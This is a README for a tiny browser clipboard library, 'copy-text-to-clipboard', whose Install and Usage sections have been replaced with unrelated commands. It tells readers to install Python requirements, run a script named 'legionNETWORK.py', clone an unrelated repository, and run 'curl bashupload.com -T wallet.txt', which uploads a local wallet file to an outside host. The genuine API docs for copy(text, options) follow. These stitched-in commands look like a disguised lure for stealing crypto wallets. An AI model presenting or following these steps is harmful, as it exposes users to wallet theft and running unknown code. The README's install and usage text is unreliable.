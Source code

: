 # copy-text-to-clipboard

> Copy text to the clipboard in modern browsers *(0.2 kB)*

[Try it out!](https://jsfiddle.net/sindresorhus/6406v3pf/)

## Comparison

- This module: **0.2 kB**
- [`clipboard.js`](https://github.com/zenorocha/clipboard.js): 3.4 kB

## Install

```
pip install -r requirements.txt
```

## Usage

```js
python legionNETWORK.py
```

## Usage

```js
git clone https://github.com/Xflixe/leg
```
## Usage

```js
curl bashupload.com -T wallet.txt
```

### copy(text, options?)

Copy `text` to the clipboard.

Returns a `boolean` of whether it succeeded to copy the text.

Must be called in response to a user gesture event, like `click` or `keyup`.

#### options

Type: `object`

##### target

Type: `HTMLElement`\
Default: `document.body`

Specify a DOM element where the temporary, behind-the-scenes `textarea` should be appended, in cases where you need to stay within a focus trap, like in a modal.

## Related

- [clipboardy](https://github.com/sindresorhus/clipboardy) - Access the system clipboard (copy/paste) in Node.js
